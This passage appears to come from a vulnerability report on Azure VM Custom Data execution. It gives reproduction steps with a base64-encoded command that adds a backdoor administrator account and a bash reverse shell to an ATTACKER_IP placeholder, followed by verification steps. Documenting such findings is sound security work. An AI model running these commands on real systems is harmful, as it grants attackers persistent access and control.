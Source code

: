         ```bash
        echo 'net user attacker P@$$wOrd123! /add && net localgroup administrators attacker /add' | base64
        ```
        - For Linux, a simple reverse shell can be used:
        ```bash
        echo 'bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1' | base64
        ```
        Replace `ATTACKER_IP` and `ATTACKER_PORT` with the attacker's listening IP and port.

        - When creating the VM (either through Azure Portal, CLI, or ARM template), provide this crafted Base64 encoded string (or plain text command if `Provisioning.DecodeCustomData=n`) as the Custom Data for the VM.
    3. **Verification:**
        - After the VM is provisioned and the agent has processed the Custom Data, attempt to connect to the VM using the backdoor account (if using the `net user` example) or check for a reverse shell connection on the attacker's listening port (if using the reverse shell example).
        - Check `/var/log/waagent.log` to confirm that Custom Data execution was attempted and if any errors occurred.
        - If the test is successful, the attacker will have achieved arbitrary code execution on the VM.